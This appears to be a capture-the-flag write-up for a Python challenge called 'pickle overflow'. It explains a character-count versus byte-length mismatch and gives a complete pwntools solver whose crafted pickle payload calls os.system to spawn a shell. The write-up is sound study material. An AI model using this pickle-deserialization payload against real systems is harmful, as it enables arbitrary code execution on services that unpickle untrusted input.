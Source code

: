# pickle overflow

![image](https://github.com/user-attachments/assets/3dc1386c-c94b-4e23-b8b9-489b08ea7dbe)

## solution

after leaking the 2nd line of the program by entering >256 chars as hinted in the description, it is possible to see that the input is being put into a `SHORT_BINUNICODE` pickle instruction. however, the length that is being checked is using a utf8 string

```py
inp = input()
assert (len(inp) < 256 and (__import__('pickle').loads(b'\x80\x04\x8c' + (lambda v: __import__('Crypto.Util.number',None,None,['Util','number']).long_to_bytes(len(v))+v)(inp.encode())+b'\x2e'))), "too big input!!!"
```

we can overflow the length by padding the end with emojis or some other utf8 char. however, there is the issue of escaping with the `inp.encode()` using utf8 by default. we can just copy paste the dicectf [unipickle](https://github.com/dicegang/dicectf-quals-2024-challenges/blob/main/misc/unipickle/unipickle.py) solution since that challenge is the exact same pretty much.

```py
from pwn import *
from pickle import *

p = process(["python3", "main.py"])

# payload can be stolen from dicectf 2024 unipickle, but unipickle isn't the main focus
# the main point of the challenge is to add a bunch of stuff to overflow SHORT_BINUNICODE length argument, and also to bypass the length check we can pad the payload with unicode chars where len(c) == 1 and len(c.encode()) > 1

bs = lambda _: SHORT_BINSTRING + int.to_bytes(len(_), 1, 'big') + b"" + _.encode() + b""

q = (bs('os') + bs('system') + BINPUT + b'\xc7\x88' + POP + POP + BINGET + b'\xc7\x93' + MARK + bs('sh') + TUPLE + REDUCE + STOP)

p.sendline(q + b'\xd2\x82' * 160)

p.interactive()
```
